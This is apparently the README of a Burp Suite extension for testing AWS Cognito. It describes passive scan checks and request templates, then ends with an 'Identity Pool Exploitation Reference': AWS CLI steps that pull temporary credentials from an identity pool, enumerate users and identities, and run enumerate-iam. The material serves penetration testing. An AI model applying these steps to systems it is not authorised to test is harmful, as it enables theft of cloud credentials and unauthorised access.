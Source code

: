 # AWS Cognito (Using the Montoya API)

__Author: Nick Coblentz__

Building this plugin was possible thanks to my employer and friends at: https://www.virtuesecurity.com

This extension helps identify key information from requests to AWS Cognito, provides several passive scan checks, and suggests HTTP request templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 
  - Log `AWSCognitoIdentityService.GetCredentialsForIdentity` requests containing temporary credentials

## Examples

### Burp Proxy Comments Reflected the `X-Amz-Target`

![](screenshots/2023-07-12-14-54-55.png)

### Identity Pool Found

![](screenshots/2023-07-12-14-43-08.png)

### Identity Pool URL Found

![](screenshots/2023-07-12-14-43-53.png)

### Sign Up Request

![](screenshots/2023-07-12-14-44-33.png)

### Generated Requests to Send to Repeater

#### Sign Up

![](screenshots/2023-07-12-14-47-02.png)

#### UpdateUserAttributes

![](screenshots/2023-07-12-14-47-43.png)

## Download the Plugin

See the packages section on the right hand side of this GitHub Repo. Look for `burpmontoyacognito-x.y.z-fatjar.jar`.

## How to build this plugin

### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-x.y.z-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws sts get-caller-identity #check what additional roles this token has
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```
